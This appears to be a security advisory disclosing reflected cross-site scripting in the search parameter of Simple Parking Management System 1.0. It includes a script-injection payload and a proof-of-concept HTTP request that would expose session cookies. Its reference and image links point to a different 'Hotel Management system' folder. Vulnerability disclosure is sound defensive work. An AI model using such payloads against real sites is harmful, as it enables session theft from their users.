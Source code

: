 #### Title: Simple Parking Management System 1.0 Reflected Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 10.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-simple-parking-management-system-source-code
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Stored)/POC.md


#### Description：
####  Simple Parking Management System is vulnerable to Reflected cross-site scripting on the search parameter.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

#### Payload used:
`"><script>alert("XSS")</script>`

### POC

```
GET /ci_spms/admin/search/searching/?search=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&find= HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=hrm5slo659sa0q687m87vufu1p0gcfcg
Connection: close
```

![image](https://github.com/CyberThoth/CVE/blob/19d02bfc410f0a57bf3dabb23bc7f31a18e0e07f/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Refelected)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/19d02bfc410f0a57bf3dabb23bc7f31a18e0e07f/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Refelected)/2.png)
